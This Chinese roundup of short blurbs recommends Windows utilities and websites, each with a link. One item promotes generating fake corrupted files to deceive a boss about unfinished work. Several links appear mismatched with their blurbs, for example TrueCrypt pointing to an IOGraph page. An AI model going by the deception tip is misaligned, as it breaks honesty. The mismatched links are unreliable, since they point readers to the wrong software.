据说蚊虫对高低频声波比较敏感，难以承受，所以有人研究出“电子蚊香”，又名：春哥牌蚊香。至今已是第五代了，夏天如果想获得最佳驱蚊效果，避免化学驱蚊商品的伤害，那么就试试这款电子蚊香吧。

http://www.skycn.com/soft/35672.html

## 将系统相关功能搬到桌面上

使用Windows操作系统，像“关机”、“待机”、“锁定”、“重新启动”、“打开设备管理器”等操作，正常的方法是通过相应的入口来实现，例如“重新启动”时就需要打开“开始”菜单，再按相应的按钮来执行。如果将这些功能像程序快捷方式那样放到桌面，肯定能大幅提高工作效率。“Handy Shortcuts”就是这样一款小工具，它可以将系统中的很多实用功能直接摆到桌面上，让你以后只要双击一次鼠标即可打开它们。

http://tinyurl.com/6cmjmbd

## 为小喇叭添加左右声道控制按钮

平时，我们可以方便地通过系统托盘区的音量图标来控制声音，但默认只能控制音量的大小。而在看双语大片时出现混音现象，最简单的方法就是通过左右声道控制来解决。这时，就可以通过这款“SimpleSndVol”小工具了，它的功能与音量小喇叭一样，但是多了左、右声音调控按钮，切换声道时再也不用打开音量控制面板了。此外，它还提供了音量设置快捷键。对于经常喜欢看电影的朋友，应该算是很受用的。

##
[http://winreview.ru/download.php?view.78](http://winreview.ru/download.php?view.78)

## 本本中浏览网页不再愁关闭标签了

现在的浏览器都是多标签的了，在台式电脑中，关闭浏览器标签十分方便，但在笔记本电脑中就显得不顺手了，移动鼠标指针到标签关闭按钮上相当费劲。而这款“Tab Killer for TrackPad”就能帮助你在笔记本电脑中快速关闭指定的标签页，到底方便到什么程度呢？只需用两只手指在笔记本电脑的触控板上双击，就能关闭标签页了，应该比台式机鼠标关闭法来得更方便吧？该软件默认支持IE及Firefox浏览器，而若在参数中设置让其支持其他多标签程序，也可对更多程序提供关闭标签支持。

[http://www.softpedia.com/get/System/File-Management/Tab-Killer-for-TrackPad.shtml](http://www.softpedia.com/get/System/File-Management/Tab-Killer-for-TrackPad.shtml)

## 去除小红伞的广告窗口

免费好用的杀毒工具——小红伞（AntiVir）想必很多朋友都在使用，免费、杀毒功能强大、不占用过多系统资源，是其最大的亮点。但是免费版的小红伞总是时不时地弹出付费广告窗口，喜欢清静的朋友肯定早就反感了。只要使用这款“Antivir AD Disabler”的小工具就能轻松地将这个烦人的广告扫除一干二净了。

[http://beta101.com/viewthread.php?tid=272](http://beta101.com/viewthread.php?tid=272)

## 让剪切板像网上邻居那样可共享

在自己的硬盘中共享一个文件夹，自己的其它电脑都可以拷贝这个共享数据。而我们平时使用的剪切板，如果也能这样进行共享，在有些合作办公的场合就显得十分受用了。“Copycat”就是这样一款可以让剪切板数据共享的工具，在A电脑上复制一段文字后，可以直接在B电脑中粘贴，非常方便。

[http://beta101.com/viewthread.php?tid=271](http://beta101.com/viewthread.php?tid=271)

## 图片缩小处理不用求人

在我们平时用电脑过程中，经常会遇到处理图片缩小、格式变幻处理的需求，例如在淘宝购物后产生纠纷，需要上传图片作为证据，或是将拍的照片上传到论坛帖子中。在这时候，经常会因为网站对图片大小、格式要求的限制而无法直接上传，这时，借助“Easy Image Modifier”这款小工具就能解决问题，将一张或是多张图片拖到软件中，设置好目标尺寸或是目标格式即可将图片缩小成符合要求的状态，进而可以方便地上传到网络上。

[http://www.piaodown.com/soft/43749.htm](http://www.piaodown.com/soft/43749.htm)

## 瑞星浏览器，上网浏览又多一种选择

浏览器产品其实已经很多了，一般情况下，每个朋友都有自己喜欢或是惯用的一款。最近，瑞星也推出“瑞星安全浏览器”，这款浏览器主要优点就是借助“云技术”实现的“云安全”，很少的假死现象，自带的安全网址导航功能。凭借其做安全软件的技术与经验，打造的这个安全浏览器能够让用户避免挂马网页、恶意网站等的攻击，为用户打造一个安全的上网浏览环境。

[http://www.rising.com.cn/2011/rse/](http://www.rising.com.cn/2011/rse/)

## 轻松下载海量手机电影

如今普通的手机都能播放电影，可直接供手机播放的片源比较少，很多时候还要转换格式。不过有了“电驴”，一切都能轻松搞定，它可以自动获取支持手机的最新影片、动漫、剧集等。我们只需要根据喜好，找到所需影片剧集，使用迅雷批量下载，最后复制到手机即可播放。

[http://www.dianhoo.com](http://www.dianhoo.com)

## 超酷桌面，酷鱼制造

提起酷鱼，很多网友都会想起几年前风靡国内的鱼鱼桌面秀。没错！鱼鱼桌面秀正是酷鱼桌面的前身。和鱼鱼桌面秀一样，酷鱼桌面也是一款免费的桌面Widget（小工具）平台，不过由于底层代码完全重写，新酷鱼不但华丽流畅，而且启动速度和内存占用量也有了明显提升。最为关键的是，新版本还加入了更为直观的小工具下载以及DIY面板。

[http://ku-yu.com](http://ku-yu.com)

## 正版音乐，震撼视听

谷歌音乐提供了大量的正版免费音乐，相信歌迷们都了解。可你知道吗？谷歌音乐上的正版音乐都是由“巨鲸音乐网”合作提供的。巨鲸音乐网拥有国内最大最全的正版音乐库，最近推出了“巨鲸音乐盒”。这是一款高音质绿色免费音乐播放软件，海量正版音乐库，独特的布局结构，人性化的功能设置，简单易用的操作体验，便捷的查找方式，酷感十足的外观设计，为用户提供集播放、收藏、下载、推荐为一体的全方位音乐服务。

[http://soft.top100.cn](http://soft.top100.cn)

## 让游戏更流畅

盛大创新院专为游戏玩家打造的一款实时为游戏优化电脑环境的智能软件！不少玩家明明觉得自己电脑配置不差，但玩起游戏来总是卡机，而游戏优化大师会对系统进行全面而深度的检查，分析出所有引起卡机的原因，然后自动对系统进行后台服务优化、内存整理等智能化操作，只需一键即可打造出自己流畅的游戏模式！游戏优化大师不仅操作简单、智能，而且游戏优化大师永久免费！在游戏退出时，你可以随时恢复以前做过的优化策略，不会影响到除游戏以外的其它应用！

[http://tools.sdo.com](http://tools.sdo.com)

## 电子书转换利器

如今电子书很流行，但是格式并不像音乐一样几乎被MP3统一。下载的电子书中包含各种不同的格式，如：epub、pdf、pdb、fb2等。而不同的手机、平板电脑等移动设备支持的格式也不尽相同。此时就迫切需要一款好用的电子书格式转换工具。Hamster Free eBook Converter就是这样一款工具，可以将目前常见的电子书文件格式间互相转换，支持所有流行的移动电子设备，便于我们制作移动电子设备上的电子书。

[http://ebook.hamstersoft.com/cn](http://ebook.hamstersoft.com/cn)

## 全能的系统优化工具——魔方

魔方是一款非常全能的系统优化工具，世界首批通过Windows7认证的系统工具，内含清理大师、美化大师、优化大师、修复大师四个模块，包含设置、清理、美化、安全、维护、修复、备份还原、文件处理、磁盘整理、系统软硬件信息查询、进程管理、服务管理等功能。完美支持32位和64位的Windows7，Vista，XP，Windows2008、2003所有主流操作系统，数十项独家和千余项实用功能。可以这样说：魔方是目前世界范围内执行效率最高的一款顶级综合型系统软件。

[http://www.tweakcube.com](http://www.tweakcube.com)

## RAW 图片随意看

现在说的这个RAW格式，并非硬盘出现故障而出现的RAW不可识别的分区哦！而是大家平时见到的一种图片格式。在Windows系列系统中想看RAW格式的图片，还是件比较费劲的事情，总不能为了看张RAW格式图片，去安装肥大的Photoshop吧。现在好了，只要借助“微软相机编解码器”，就能轻松地借助系统自带的图片查看器让RAW格式图片尽现眼底了。当然，安装了这个解码器后，还能解决很多数码设备品牌所提供的媒体文件格式。

[http://www.microsoft.com/downloads/zh-cn/details.aspx?FamilyID=a0ac689f-9bad-46be-ae8d-550cb9ba5430](http://www.microsoft.com/downloads/zh-cn/details.aspx?FamilyID=a0ac689f-9bad-46be-ae8d-550cb9ba5430)

## 让你的鼠标操作超前十年

在电脑中，鼠标是平时操作最多也是最重要的工具。与菜单操作相比，借助鼠标右键，达到同样的目的却只须很少的操作。而这款名为“AltDrag”的小工具还可以让鼠标在原有的功能基础上变得更好用。例如：在窗口任意位置点击或拖动鼠标可以实现移动窗口，调整窗口大小、居中、关闭、最小化、窗口置顶、下置，让鼠标所有按键发挥更多功能。左键双击窗口任意位置，可以最大化/还原窗口，直接通过滚轮切换程序，实现Windows 7 Aero风格窗口拖拽效果。此外，它还有滚动非活动窗口，普通移动自动吸附窗口，设置不作用列表等功能。

[http://code.google.com/p/altdrag/](http://code.google.com/p/altdrag/)

## 压缩包内找文件，不再费脑筋

硬盘越来越大，在硬盘中找文件的需求越来越大。不过，借助搜索工具往往也并不费脑筋。不过，在压缩包内找文件却是个体力活，先解压，再搜索，若遇到大压缩包，光解压文件就能耗费大量的时间。这个“Archive Searcher”小工具，专门从事于压缩包内搜索文件的，不管是大压缩包还是小压缩包，它都能快速打入内部，揪出你想要的目标文件。

[http://www.downg.com/soft/22088.html](http://www.downg.com/soft/22088.html)

## “龟速”不堪忍受？优化优化吧

启动系统要花好几分钟时间，系统运行慢如“龟速”，无法忍受了？除了硬件升级外，最好的方法就是对系统进行优化了。“Glary Utilities Pro”就是一个不错的优化工具，除了优化系统启动、运行速度外，它还提供了一些不错的小工具，例如清理上网记录，查找重复文件、分析磁盘空间、查找空目录、安全删除文件等。不再被动地忍受“龟速”了，是Windows系统下的一个不错的优化小工具。

[http://www.newhua.com/soft/1106.htm](http://www.newhua.com/soft/1106.htm)

## 硬件达标，但游戏不流畅的解决方案

按照游戏软件的要求，自己的电脑平台明明达标了，但是在运行游戏时，却还出现不流畅现象。这种情况经常会发生，不是因为你的电脑硬件达标就能保证游戏的顺畅运行。假如系统长时间运行，没有及时优化，也会导致游戏运行不畅现象。这款“游戏优化大师”能够专门针对游戏环境进行专项优化，让你的系统保持最佳游戏运行状态，让游戏运行得更加顺畅，是游戏玩家们必备的一款优化工具。

[http://tools.sdo.com/](http://tools.sdo.com/)

## 绿色软件也可以自己定制

为了避免重做系统后安装软件的麻烦，很多朋友都青睐于绿色软件。不过，并不是所有的软件都能方便地找到绿色版本，而自己动手打造，又非凡人所能。幸好，这款小工具可以帮助打造绿色软件，它借助沙箱的原理，把安装版软件安装的动作都记录下来，当运行打包制作时，它会产生一个虚拟环境来执行，就不会去动用到原本的系统。通过安装前后的快照对比即可生成一个“打包”的软件实现传说中的制作绿色软件了。有兴趣的绿色软件迷可以试试，用它制作自己的绿色版软件。

[http://www.onlinedown.net/soft/31503.htm](http://www.onlinedown.net/soft/31503.htm)

## 带语音的计算器

为了方便，很多人都是直接使用Windows自带计算器工具，可不足之处就是在使用时，需要不停地对照原稿、屏幕，以防输入出错。有声语音计算器具有常用计算器的所有功能，还具备了语音发声技术，按下按钮时会发出声音，一有错误可立即得到纠正，提高录入速度。

[http://www.duote.com/soft/21011.html](http://www.duote.com/soft/21011.html)

## 轻松修复受损文件

平日的电脑使用过程中，难免会遇到意外的情况，比如：你正在编辑一篇Word文档，因遭遇意外停电文档无法打开；你正在与好友在网络上传送影片，因为网络中断已传送的视频文件无法观看等等！这一切将因为有了File Repair而变得不再可怕，这是一个功能强大的文件修复工具，它能扫描已损坏的文件，而提取出其中最大可用数据！可以修复的文件包括：Office文档（包含2003-2010版本），压缩文件，音视频文件等。

[http://www.dl.dbank.com/c063j6vj0q](http://www.dl.dbank.com/c063j6vj0q)

## 给 Windows 找个“美容师”

Windows的“外表”是由其主题决定的，利用CustoPack Tools可以制作个性化的Windows主题，自定义各种系统的图标、开始菜单、窗口背景等，另外还可以设置字体、鼠标样式、Windows登入和关闭声音和背景等等，是一款相当优秀的系统“美容师”。

[http://www.skycn.com/soft/43667.html](http://www.skycn.com/soft/43667.html)

## 免费安全的顶级加密工具

为了保护数据安全，我们不得不使用一些数据加密软件，而在数量繁多的此类软件中同时具备功能全面、加密能力强、使用方便，这三个优异条件的加密软件非TrueCrypt莫属！TrueCrypt是一个免费开源的顶级数据加密工具，可以对Windows 所有磁盘、分区、（包括系统分区）、文件、USB设备进行加密。使用方便，可以在电脑中创建一个虚拟磁盘，可以像使用真正的磁盘分区一样来进行操作！

[http://www.appinn.com/iograph/](http://www.appinn.com/iograph/)

## 记录鼠标轨迹 自制映像派绘画

我们每天大量的使用鼠标，那么如果将鼠标移动和点击的轨迹记录下来，会是怎样的效果呢？IOGraph就是这样一款记录鼠标应用轨迹的软件，该软件无需安装，且使用起来非常的简单，只需要选择程序中开始按钮，程序就会持续为您记录鼠标运行的轨迹了，在程序运行一段时间后，就可查看其作图效果了，是不是变成了一张自制映像派抽象图片呢？

[http://www.onlinedown.net/soft/99606.htm](http://www.onlinedown.net/soft/99606.htm)

## 按需设置自动关机

炎炎夏日害怕CPU温度过高怎么办？通宵开着电脑下载害怕网速不给力，一晚上白忙活怎么办？有没有一种软件可以在CPU温度过高时自动关机？在通宵下载时，因为网速太低而自动关机呢？答案就是Shutdown Timer，它内置了多种自动关机控制功能，可以监视时间和日期、CPU使用率、CPU温度、内存使用、网络使用情况、系统闲置状态而对电脑进行关机、重启、注销、休眠、打开网页、关闭显示器等自动操作！

[http://davidevitelaru.com/downloads/Breaker%20Setup.msi](http://davidevitelaru.com/downloads/Breaker%20Setup.msi)

## 让你远离电脑病

众所周知，坐电脑前时间过久，会引发各种电脑病，例如键盘手、鼠标手、颈椎病等，一旦沾上，想完全康复是很难的。因此，养成良好的用电脑习惯是至关重要的，这款名为“Breaker”的小工具就能协助你养成这样的好习惯，之前只要规划好工作时间、休息时间，即使你沉迷于游戏，到点后，在它的提醒下，估计也能站起来伸伸腰，做做眼保健操。此外，这款软件更适合于那些想纠正自己不良用电脑习惯的朋友。不过软件需要微软.Net Framework平台的支持。

[https://chrome.google.com/webstore/detail/gbchcmhmhahfdphkhkmpfmihenigjmpp](https://chrome.google.com/webstore/detail/gbchcmhmhahfdphkhkmpfmihenigjmpp)

## 跨平台远程控制这样很方便

说到远程控制，有很多软件可以实现，但是在不同的平台之前进行远程控制，相对就难不少。现在，只要你安装了谷歌浏览器——Chrome，借助这款“Chrome Remote Desktop”工具，就可以在不同的系统平台之间进行远程控制了，第一次运行需要登录Google账户，若需要被控制，只要共享自己的电脑，然后将访问代码告诉朋友，他们通过这个访问代码就可以进行远程控制了。

[http://www.firefox.com/](http://www.firefox.com/)

## Firefox 7.0 Beta 5

Firefox是一款倍受青睐的浏览器，自V6.0推出后，V7.0又进入了几轮测试版，这次的V7.0 Beta5比Firefox 4至6版执行效率更高，占用的存储少一半，而且可以协助网页开发人员创造更快更优良的网页或网站应用服务。Firefox 7新增MemShrink技术，可以更有效率的管理存储，官方宣称可以降低20-50%的存储用量，这样同时可以减少使用存储分页，进而降低软件卡死的频率。其中一个关键是强化JavaScript的管理，让浏览器同时及长期开启多个分页的时候，可以适时推出存储。

[http://www.newhua.com/soft/85972.htm](http://www.newhua.com/soft/85972.htm)

## 让游戏摆脱卡壳的尴尬

玩游戏遇到卡壳现象并非少见，游戏途中遭遇卡壳时肯定会很扫兴，游戏卡壳通常是与硬件配置不高有一定关系的，但硬件配置低并非其唯一原因。有时候，硬件配置明显高于游戏最低要求，但仍出现卡壳现象，这时候，你就需要优化你的游戏环境了。Game Booster 是针对游戏运行环境而开发的优化软件，它可以停止、优化无必须启动的服务与进程，整理游戏碎片，让你的游戏可以在最流畅的系统环境中运行。最新版Game Booster V3.0，重新设计启动画面，增强了诊断与优化速度，更新了进程与服务黑白名单。

[http://www.piaodown.com/soft/37599.htm](http://www.piaodown.com/soft/37599.htm)

## 系统命令提示符的最佳替身

系统命令提示符窗口经常被高手用来解决一些棘手问题，如果你也经常使用命令提示符窗口，推荐你使用它的替身——ColorConsole，与其名字一样，它不仅能一改黑底白字陈规，还能提供多标签、导出命令执行记录、菜单方式执行命令、菜单方式切换目标目录等功能，让你在使用命令时更方便。

[http://www.5vdd.com/software/202.html](http://www.5vdd.com/software/202.html)

## 窗口，轻松置顶

有时候，需要将某个特定的窗口放到最顶端，不想被其他窗口遮盖，少部分程序自带了这样的功能，例如QQ、MSN等，但多数程序并未自带这样的置顶功能。而“华华窗口置顶器”就可以让指定的程序自动置顶了，譬如，一边看电影，一边想聊天、看网页，但电影窗口想让其一直在屏幕顶端，这时就可以通过该软件来达到目的了。

[http://finder.sdo.com](http://finder.sdo.com)

## 光一样的搜索

光速搜索是盛大创新院发布的一款可以完全替代Windows搜索的桌面快速搜索工具，加载全部文件仅需几秒，查找任意文件更是毫秒级的速度，是目前搜索和管理个人电脑文件最快的软件产品。输入关键字，精准显示搜索结果，占用系统资源非常少；可以智能给本机文档、图片、程序、视频等智能分类，查找更轻松；同时迷你搜索框常驻任务栏，一呼即搜，更易查找。

[http://dl.pconline.com.cn/download/85127.html](http://dl.pconline.com.cn/download/85127.html)

## 隐藏秘密全“露陷”

Find Hidden是一款用于查找电脑上隐藏文件和文件夹的免费小工具，利用它可以快速找到电脑上全部的“隐藏秘密”，从而可以轻松地复制、移动或删除。支持 Windows7、Vista、XP。它的搜索功能相当的丰富，可以指定盘符搜索，可以设置只搜索隐藏文件或只搜索隐藏文件夹，支持通过通配符过滤，支持过滤文件体积，甚至还能指定文件的创建时间或修改时间，让你准确地找到需要的东西。当然，此软件也有点小小的邪恶，因为除了可以搜索自己的电脑外，也能用于搜索别人的电脑，但是别做坏事啊……

[http://www.onlinedown.net/soft/5389.htm](http://www.onlinedown.net/soft/5389.htm)

## Archive Searcher，专搜压缩包

你碰到过面对着一大堆压缩文件，而想要搜索某个位于压缩包内部的特定文件的情形吗？Archive Searcher 就能够帮你快速地找到你所需要的文件，你无需逐个解压大量的压缩文件就能够直接找到你的目标。它是Windows 搜索功能的增强工具，专门用来搜寻硬盘位于压缩包内部的文件或文件夹，支持ZIP、RAR、ACE 及 CAB格式文件，支持通配符搜索，对于需要模糊搜索的朋友也相当有用。

[http://www.onlinedown.net/soft/75026.htm](http://www.onlinedown.net/soft/75026.htm)

## DocFetcher，让文档一个不落

这是一个免费开源且跨平台的桌面文档内容搜索引擎，它能遍历你所有的文档内容，支持搜索的文档格式非常丰富，如：网页（html），文本文档（txt、PDF、chm、rtf），Office文档（doc、xls、ppt、docx、xlsx、pptx）等等，基本上流行的文档都能被索引和搜索，能满足绝大部分人的需求。我们可以对自己的电脑进行全文搜索，搜索自己电脑本地的文档内容就像使用Google或百度一样简单方便，这意味着你不必再去记忆文件名了，只要输入文件内容的关键字即可搜索。启动软件后在右下角的Search Scope区域右击选择Create Index，选择要索引的文件夹，按“Run”确定并开始索引，当索引完成之后，在上面输入文件名就可以搜索了。

[http://www.ouyaoxiazai.com/download/y15530.html](http://www.ouyaoxiazai.com/download/y15530.html)

## 让相似图片原形毕露

图片相对于其它类型的文件，在重复文件搜索上会略有不同，因为图片的大小、格式不一样，但是图片上的内容却有可能是一样的。因此传统的重复文件搜索工具，并不能很好地找出相似图片，所以这里给大家准备了Awesome Duplicate Photo Finder，它可以自动对电脑中的图片进行比对，而且对相似图片给出相似度，让我们可以轻松找出不同格式、不同尺寸的相似图片。

[http://www.365rili.com/](http://www.365rili.com/)

## 手机与电脑通用的日历

手机上、电脑上都能找到很多日历工具，可以时时提醒我们重要的事情，不过我们在电脑中制作的日历无法同步到手机中，或者手机中的日历无法在电脑上共享，肯定很不方便。这款“365日历”提供跨平台功能，让你的电脑、手机自动同步之前设置的日历，再也不用顾此失彼了。

[http://tinyurl.com/yhqlvor](http://tinyurl.com/yhqlvor)

## 一分钟批量创建上百文件夹

新建一个两个文件夹不费劲，而若需要创建几百个文件夹（甚至更多），使用传统的方法就显得笨拙而费力了。这款名为“Text 2 Folders”的小工具则可以根据事先存放在文本中的文件夹名（每行一个文件夹名称）批量生成符合要求的文件夹目录，这无疑会节约大量时间和精力。例如，现在想建立一批按歌手名的音乐文件夹，只要先新建一个文本文件，每行输入一个歌手名，再使用该软件就可以立即新建相应的文件夹了。

[http://tinyurl.com/37lcpmn](http://tinyurl.com/37lcpmn)

## 单张图片拼接成“全景图”

看过全景图片的朋友肯定为昂贵的全景相机而叹服，其实，使用普通相机拍摄的图片，再经过这款名为“PanoramaPlus”的小工具进行拼接，一样会自动将几张分景拍摄的图片拼接成一个全景图片，最终效果令人叹服。

[http://awrz.org/](http://awrz.org/)

## 打造一个下载自解压机器人

下载的如果是一个压缩文件，下载后还得再解压一次才可以用，而通过“AutoWinRarZip”却可以打造一个下载自解压机器人，在下载工具中设置一个专用用于存放下载文件的目录，平时下载的电影、文档、软件等全放到这个目录，再准备一个存放解压后的文件目录，在这款软件中设置监控这个文件夹，一旦发现有新的压缩包，它就会自动将其解压并放到指定的目录中了。

## 不开机箱查看硬件信息

拆开机箱看电脑硬件型号是件很麻烦的事，其实只要有了这款身材才几百KB的小工具“Hardware Freak”，不开机箱就能将硬件看透透，你可以将它放到U盘中，甚至将它放到手机存储卡中随身携带，到电脑商店配电脑，亦或到朋友家帮他鉴别一下硬件，都可以信手拈来。

编注：不过，这款软件需要系统中安装有.Net Framework 4.0及以上版本才行。
http://www.piaodown.com/soft/55127.htm

## 隐身有术，上网就需要“蒙面”

有时候，我们需要将自己的IP地址隐藏起来，特别是那些使用固定IP地址的朋友，一旦泄露自己的IP地址，可能会给自己招来麻烦。通过这款名为“Hide IP Platinum”的小工具，你就可以“蒙面”上网了，它可以将你的IP地址隐藏起来，不管是黑客，还是一些别有用心的人，都无法知晓你的IP地址，进而可以确保自身的安全了。
http://www.newhua.com/soft/41340.htm

## 64位版Total Commander8 Beta 应时而生

想必Total Commander是很多朋友的必备利器，随着64位版Windows 7系统的流行，Total Commander最近推出64位版本。功能方面主要是侧重于重命名、搜索等功能的改进，并无颠覆性变化，而其意义则在于向64位领域的进军，平时将Total Commander视为工作必备助手的朋友，不妨在你的64位系统中升级至该版本。
http://www.newhua.com/soft/117892.htm


## 方言学习好去处

汉文化博大精深，就汉字的发音来讲，标准的应该是普通话，可中国的方言非常丰富，广州话、闽南话、上海话等都是很有特色的。如果你对这种特色方言感兴趣，想学习一些方言发音，那么不妨光临“汉语方言发音字典”，它提供了7种较为流行方言的发音（广州话、闽南话、潮州话、苏州话、上海话和广韵话）。输入汉字，选择方言类别，单击“查询”按钮即可显示发音，图中是“电脑爱好者”的7种方言发音。
http://cn.voicedic.com

## 支持外链的优秀网络相册

PhotoBucket在国外非常有名，因为它相当的稳定，而且国内速度也不错！Photobucket支持建立相册、自定义相册的URL、多种图片上传方式，批量上传、手机上传、简单的在线图片处理、制作幻灯片等，而且还有各种各样的客户端、浏览器插件、管理工具等。它还有一个非常贴心的功能，就是上传的图片不会改变文件名，并且支持相册URL自定义，外链图片时非常方便。
http://photobucket.com

## WebQQ3.0 迈向云操作系统

WebQQ综合了云计算的各种优点，是Mac或Linux中完美的QQ解决方案。最近推出的WebQQ3.0，采用了全新的桌面布局，整合了腾讯的各种服务。顶端正上方为多桌面切换按钮，可以在5个不同桌面间切换。新增应用快速启动栏及桌面应用图标，底端则是任务栏，与Windows非常相似。增加动感桌面、热键、消息提示、音视频聊天等。最引人注目的是：WebQQ中的应用市场，目前已经拥有几千款应用，娱乐、游戏、生活、社交、音乐、读书、工具、办公等等都有了，类似于Google的Chrome Web Store一样，几乎所有的应用都是免费的。腾讯的目的很明显了，他们现在不仅仅是在做WebQQ，而是更大的WebOS。
http://web.qq.com

## 不停变化的美女时钟

这个网站很有意思，打开后会显示一个美女，美女会拿着一个时钟标牌，显示当前的时间。不过如果仅仅是这样，那也没啥特别的了，跟其它时钟不一样的是：该时钟按分钟变换举牌动作，更换举牌美女，非常养眼。
http://www.bijint.com/jp

## 逛遍全球足球场

英超、意甲、德甲都是全球顶级足球赛事，可对于我们普通人来说，亲身体验他们的足球场，几乎是个梦。不过现在好了，有热心网友精心制作了球场网站，收集了超过750个足球场，3000多张图片，并且提供了6000个链接，全方位展示全球顶级足球场。
http://www.stadiumguide.com/index.htm

## 寻找类似网站

茫茫网海中，偶然找到一个自己喜欢的网站，你是否想再看看与此网站类似的其它网站呢？Similarsitesearch是一款相似站点搜索网站，只要输入网站的地址，单击“搜索”按钮则会显示相关的类似站点，非常方便。
http://www.similarsitesearch.com/cn

## 自当设计师，妆饰新家

好不容易买了一套房子，装修装饰又是一个难题。自己的装修想法总是无法与设计师完全同步，真想自己动手设计，但苦于上学时没有选择装饰专业。其实，只要你知道“美家达人”网站，想把自己的爱家打造成啥样都能实现，各种新潮的装饰品、必备的装修材料，只要用鼠标点选即可，甚至连家具、家电也能免费“搬”到家中。此外，网站中还有很多网友们的精心设计，如果想偷懒，还可以不费力气免费获得别人精心设计的作品，再稍加改动即可为自己所用了。如果有精力，还可以打造几套不同的装饰方案，让家人去选择。
http://www.meijiadaren.com/home

## 练就避难防御真功夫

随着全球各种灾难的不断重演，人们的防身、逃生等安全意识越来越强，但是光凭脑子假想的方式来模拟灾难现场没有实际效果。如果你在平时就将这个“防灾减灾网上模拟体验馆”收藏起来，闲下无事将其当成游戏来玩，肯定对你是大有裨益的。例如在发现煤气泄漏后，正确的应对措施是什么？触电了应该如何自救？地震来临，如何自救、逃生等，都可以像玩游戏那样经历一遍。
http://www.gdemo.gov.cn/yjm/hdty/

## 租房子苦于看小广告？这有网络雅座呢

想在附近找一套短租房，但总苦于无法快速联系到“包租嫂”或“包租公”，看小广告吧又太累人，有时候还容易上中介公司的当。其实，只要借助“爱日租”这个专门提供短租房的平台，你就能快速地找到令自己如愿的短租房了，何须去大街小巷看广告，联系到东家后，一个电话往往就能搞定。此外，这个网站不仅仅针对租房的朋友，家中有房要出租的话，也可以借助这个平台来快速找到租客。
http://airizu.com/TUser/index

## 每天十句话，愉悦自己的心情

上网时间长了，感觉很无聊。其实，收藏几个笑话站，在恰当的时候打开，肯定能让自己的心情得到愉悦，但是笑话多了，重复了往往就适得其反。这个“10句话”网站就比较不错，每天推送10则笑话，一个不多，而且每个内容都是新的，不会因为重复而影响到自己的情绪，不妨将其收藏下来吧。
http://10juhua.com/

## 教你识车

现在流行车热，即使你还没有入手一部属于自己的小车，但你不能不认识车。现在很多小朋友在街上看到小车时都能叫上什么品牌的，若你还不会，那就太Out了！这个网站针对各个流行汽车品牌给出了图标+品牌系列的介绍，如果不想在朋友面前成为“车盲”，不妨多到此站练练自己识别汽车品牌的“车技”。
http://www.che168.com/brand_list.htm

## 在线帮你数学题

学过数学的都碰到过数学难题，百思不得其解。如果身边没有老师或是高手同学，如果你再没有一套好的电脑网络搜索功夫，往往很难在短时间内找到这道难题的解答方案。其实，遇到再难的数学题，只要借助这个在线解答数学题的网站就能很快地得到解答了。而且这个网站支持的数学公式非常齐全并且按照一定的规律进行了分类，几乎各种高深的数学题都能很方便地得到答案。
http://www.mathway.com

## 测测你的名字值多少钱

在网络上，很多事情本身就是无聊的，但有些无聊的事却很有趣。比如这个测试姓名价值的网站，只要你输入一个姓名，它会以美元为价值代表来衡量这个姓名的价值，如果你也正无聊到极点，不妨将自己的姓名输入看看能值多少美元。
http://cn.testname.cc/

## Google的免费电吉他

曾经在Google的首页上，谷歌为了纪念电吉他之父莱斯·保罗，特意做了一个很有意思的Doodle。这个谷歌电吉他Logo可以让用户使用鼠标弹奏吉他，也可以通过按键弹奏，很有意思。有网站的用户，也可以将这个电吉他代码添加到自己的站点中。下面为大家提供一些吉他歌谱：
沧海一声笑：pouyt uytiew wewetyuop ppouyty
两只老虎：1231|1231|345|345|565431|565431|151|151||
上海滩：356666, 352222, 356865132
http://www.zhujuan.org/wp-content/uploads/guitar/google-guitar.htm

## 特效短片轻松做

只要拥有一个摄像头，我就能制作互动性很强的特效短片。因为我有Living Sasquatch，初次该站会有些慢，因为要加载很多的素材。单击Get Start录制短片，在左侧可以添加各种素材，单击Record开始录制。录制完成后单击Save a gallery填写视频资料，最后单击download movie保存影片。
http://www.livingsasquatch.com

## 在线制作图表

Microsoft Visio是个大怪兽，一般非专业人员就用它画个简单指示图，基本属于杀鸡用核弹。Diagram.ly是在线图表制作的免费网站，即开即用，上手简单，图示丰富，一摸就会，适用于简单的脑图、逻辑流程、流程图等等。如此神器的网站竟然不需注册，完全免费，画完可以保存为xml、jpg等格式的文件。
http://www.diagram.ly

## 美味小吃自己做

学做美味小吃既能愉悦身心，又能一饱口福。“小吃”网则为我们提供了这种有关小吃的资讯文化、教学视频、宝典名录以及饮食健康方面的资料，是居家生活的必备网站。网址非常好记（我吃我吃我要吃）。
http://www.5757517.com

**弄虚作假，在线生成损坏文件**

因为贪杯或贪玩，规定时间内报告计划没做完，老板领导又催你交电子文档，此时该如何是好呢？这里教你一个逃避责任的好方法：自制破损的文档，先上交应付一下，领导打开文件时，会提示乱码，此时问你啥问题，你就可以把责任推到电脑上……。友情提醒：此招只能偶尔为之。打开网站，输入文件名、文件大小，并选择格式，单击Destruct and save file按钮，即可将文件保存到本机中。

网址：http://www.xnet.se/fd

**无需流血写血书**

电影电视中，经常会看到写血书的场景。在中国，写血书一般表示有巨大的决心。Bloodyfinger就是一个可以动态写血书的网站，页面上手已经破了食指，可通过鼠标书写，单击PREVIEW按钮可播放动态血书，单击SEND按钮可发送血书到指定邮箱。有些恐怖，别用来吓唬人！

http://bloodyfingermall.com/message.php

**超强的科学计算器**

对于与数字打交道的人来说，一款科学计算器必不可少，有一个网站就专门提供了在线科学计算器，可以进行开方、三角函数、N次方等各种运算，有需要的朋友不妨收藏以备用。

http://www.calculator-tab.com

**不会布置家？来学学吧**

可能都有这样的感觉，到朋友家做客时发现，他们家总是收拾得比自己的家更新潮、整洁，但是自己家里明明也花了不少装饰的钱，但效果总是不尽人意。这就需要你学习一番了，装饰房间也是门艺术哦，只要你将本站收藏，里面有很多典型的装饰方案，甚至可以直接效仿，保证你也能很快将房间打造得漂漂亮亮，让朋友看后也羡慕一把。

http://www.eilier.com/

**网罗开心元素，自寻开心**

上网找乐子，你可以到这个网站，里面集搞笑视频、图片、笑话等多种娱乐元素于一体，全方位为大家带来乐子。在网站中，也按视频、图片、文字等进行了详细的分类，看起来也是非常方便。

http://www.installb.com/

**用欣赏的眼光去享受广告**

提到广告，多数人是对其深恶痛绝的。不过，一部广告一般都是由广告制作人绞尽脑汁想出来的，很多优秀的广告都包含了很多非常有创意的奇思妙想，绝对能够给你震撼和惊喜。这个网站就搜集了大量著名的创意广告，让你一次欣赏个够。

http://www.welovead.com/cn/

**美景好图，分享无耽搁**

